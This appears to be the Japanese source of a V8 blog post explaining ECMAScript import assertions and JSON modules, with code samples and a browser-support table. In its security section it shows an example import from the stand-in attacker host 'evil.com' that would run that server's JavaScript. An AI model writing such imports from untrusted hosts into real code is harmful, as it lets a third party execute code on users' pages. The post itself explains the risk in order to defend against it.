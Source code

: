 ```yaml
---
title: "インポートアサーション"
author: "Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), インポートアサーションの主張者"
avatars:
  - "dan-clark"
date: 2021-06-15
tags:
  - ECMAScript
description: "インポートアサーションにより、モジュール指定子とともに追加の情報をインポート文に含めることができます"
tweet: ""
---
```


新しい[インポートアサーション](https://github.com/tc39/proposal-import-assertions)機能により、モジュール指定子とともに追加の情報をインポート文に含めることができます。この機能の初期の用途として、JSON文書を[JSONモジュール](https://github.com/tc39/proposal-json-modules)としてインポート可能にすることがあります:

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## 背景: JSONモジュールとMIMEタイプ

自然に浮かぶ疑問は、JSONモジュールを次のように単純にインポートできない理由です:

```javascript
import json from './foo.json';
```

WebプラットフォームはモジュールリソースのMIMEタイプを実行前に有効性を確認し、このMIMEタイプを使ってリソースをJSONとして扱うかJavaScriptモジュールとして扱うかを判断することも理論的には可能です。

しかし、MIMEタイプだけに依存することには[セキュリティ問題](https://github.com/w3c/webcomponents/issues/839)があります。

モジュールはクロスオリジンでインポート可能で、開発者は第三者ソースからJSONモジュールをインポートすることがあるかもしれません。適切にサニタイズされている限り、JSONをインポートすることでスクリプトが実行されることはないため、基本的に安全だと考えるかもしれません。

しかし、この場合でも第三者のスクリプトが実際に実行される可能性があります。予期せずJavaScript MIMEタイプと悪意のあるJavaScriptペイロードを返すサーバが輸入者のドメインでコードを実行することができるためです。

```javascript
// JavaScript MIMEタイプ (例: `text/javascript`) を
// evil.comが返答した場合、JSを実行します!
import data from 'https://evil.com/data.json';
```

ファイル拡張子を使用してモジュールタイプを判別することはできません。なぜなら、[ウェブ上ではコンテンツタイプの信頼できる指標ではない](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md)からです。そのため、インポートアサーションを用いて期待されるモジュールタイプを示し、この権限昇格の落とし穴を防ぎます。

開発者がJSONモジュールをインポートしたい場合は、それがJSONであることを指定するインポートアサーションを使用する必要があります。ネットワークから受け取ったMIMEタイプが期待されるタイプと一致しない場合、インポートは失敗します:

```javascript
// evil.comが非JSON MIMEタイプで返答した場合は失敗します。
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## 動的`import()`

インポートアサーションは、[動的`import()`](https://v8.dev/features/dynamic-import#dynamic)に新しい2番目のパラメータとしても渡すことができます:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

JSONコンテンツはモジュールのデフォルトエクスポートであるため、`import()`から返されるオブジェクトの`default`プロパティを通じて参照されます。

## 結論

現在、インポートアサーションの唯一の指定された用途はモジュールタイプの指定です。しかし、機能は任意のキー／値アサーションペアを許容するように設計されているため、将来、モジュールインポートを別の方法で制限することが有用になる場合に追加の用途が追加される可能性があります。

一方、新しいインポートアサーション構文を使用したJSONモジュールはChromium 91でデフォルトで利用可能です。[CSSモジュールスクリプト](https://chromestatus.com/feature/5948572598009856)もすぐに登場する予定で、同じモジュールタイプアサーション構文を使用します。

## インポートアサーションのサポート

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="no"
                 safari="no"
                 nodejs="no"
                 babel="yes https://github.com/babel/babel/pull/12139"></feature-support>
